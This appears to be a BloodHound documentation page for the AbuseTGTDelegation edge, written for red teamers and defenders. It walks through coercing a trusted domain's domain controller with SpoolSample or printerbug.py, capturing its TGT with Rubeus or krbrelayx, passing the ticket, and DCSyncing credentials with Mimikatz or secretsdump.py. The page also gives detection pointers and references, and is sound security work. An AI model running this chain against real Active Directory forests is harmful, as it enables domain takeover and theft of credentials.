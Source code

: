 ---
title: AbuseTGTDelegation
description: The trust from the target node domain to the source node domain has TGT delegation enabled. When a resource in the source node domain is configured with unconstrained delegation, principals from the target node domain will automatically forward their Ticket Granting Ticket (TGT) to that resource upon access.
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>


## Abuse Info

TGT delegation allows an attacker to capture TGTs of privileged users or computers in the target domain when they authenticate against a system configured with unconstrained delegation.

A common attack method involves the attacker logging into a DC of the source domain and coercing a DC of the target domain. Since DCs have unconstrained delegation enabled by default, this grants the attacker a TGT for a target domain DC, which can then be used to perform a DCSync attack on the target domain. This guide details that version of the attack.

Alternatively, attackers can target other privileged computers or users besides DCs.

The attack will fail if the target is a member of Protected Users or is marked as not trusted for delegation, as their TGTs will not be sent to hosts with unconstrained delegation. You can identify all protected principals using the following Cypher query in BloodHound:

```cypher
MATCH (g:Group)
WHERE g.objectid ENDS WITH "-525"
MATCH (n:Base)
WHERE n.sensitive = TRUE OR (n)-[:MemberOf*..]->(g)
RETURN n
LIMIT 1000
```

Attackers can also exploit non-DC hosts or users in the source domain with unconstrained delegation enabled. To find all non-DC principals with unconstrained delegation in BloodHound, run:

```cypher
MATCH (n:Base)
WHERE n.unconstraineddelegation = TRUE AND NOT (n)-[:DCFor]->()
RETURN n
```

## Attack

**Step 1: Start Monitoring for TGTs**

Windows:

Log into a DC of the source domain and open a command prompt as Administrator.

Start monitoring for incoming TGTs using Rubeus:

```bash
Rubeus.exe request monitor /user:targetdc.domain.local /interval:5 /nowrap
```

Linux:

Obtain credentials for a computer or user with unconstrained delegation.

Start monitoring for incoming TGTs using krbrelayx.py with the credentials of the unconstrained delegation account:

```bash
krbrelayx.py -aesKey 9ff86898afa70f5f7b9f2bf16320cb38edb2639409e1bc441ac417fac1fed5ab
```

**Step 2: Coerce the Target DC**

The printer bug is abused in this example. If the Print Spooler service is disabled on the target host, alternative coercion techniques must be used. See "Windows Coerced Authentication Methods" under References for details.

To coerce the target DC, Authenticated Users access is required in the target domain. If the trust relationship is bidirectional, all principals in the source domain have this access by default. If not, coercion must be executed as a principal from the target forest. Attackers can obtain such a session using the trust account attack. See "SID Filter as a Security Boundary Between Domains? (Part 7) - Trust Account Attack" under References for details.

Windows:

From any host in the domain, coerce the target DC using SpoolSample:

```bash
SpoolSample.exe targetdc.domain.local compromiseddc.otherdomain.local
```

Rubeus will print the DC TGT as soon as it is received.

Linux:

Coerce the target DC using printerbug.py:

```bash
printerbug.py '<domain>/<username>:<password>'@<target DC IP> <compromised DC IP>
```

krbrelayx.py will save the received TGT to disk.

**Step 3: Pass the Ticket**

Windows:

Inject the DC TGT into memory using Rubeus:

```bash
Rubeus.exe ptt /ticket:doIFvjCCBbqgAwI...
```

Linux:

Set the KRB5CCNAME environment variable to the ticket's path:

```bash
export KRB5CCNAME=$path_to_ticket.ccache
```

**Step 4: DCSync the Target Domain**

Windows:

Use Mimikatz to DCSync the target domain from the machine where the DC TGT was injected:

```bash
lsadump::dcsync /domain:domain.local /user:DOMAIN\Administrator
```

Linux:

Use secretsdump.py to DCSync the target domain:

```bash
secretsdump.py -k -just-dc-user <DOMAIN/targetuser> <target DC DNS name>
```

## Opsec Considerations

The attack can be detected by correlating Windows security events from the attacker-controlled host and the target. See the reference "Hunting in Active Directory: Unconstrained Delegation & Forests Trusts" for details.

## Edge Schema

Source: [Domain](/resources/nodes/domain)  
Destination: [Domain](/resources/nodes/domain)   
Traversable: **Yes**   

## References

* [Not A Security Boundary: Breaking Forest Trusts](https://posts.specterops.io/not-a-security-boundary-breaking-forest-trusts-cd125829518d)
* [Hunting in Active Directory: Unconstrained Delegation & Forests Trusts](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)
* [Abusing Users Configured with Unconstrained Delegation](https://exploit.ph/user-constrained-delegation.html)
* [SID filter as security boundary between domains? (Part 7) - Trust account attack - from trusting to trusted](https://blog.improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)
* [“Relaying” Kerberos - Having fun with unconstrained delegation](https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/)
* [Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)
* [Rubeus](https://github.com/GhostPack/Rubeus)
* [SpoolSample](https://github.com/leechristensen/SpoolSample)
* [mimikatz](https://github.com/gentilkiwi/mimikatz)
* [krbrelayx.py](https://github.com/dirkjanm/krbrelayx/)
* [printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
* [secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)
* [Updates to TGT delegation across incoming trusts in Windows Server](https://support.microsoft.com/en-us/topic/updates-to-tgt-delegation-across-incoming-trusts-in-windows-server-1a6632ac-1599-0a7c-550a-a754796c291e)
* [Microsoft AD Trust Technical Documentation](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc755321(v=ws.10))


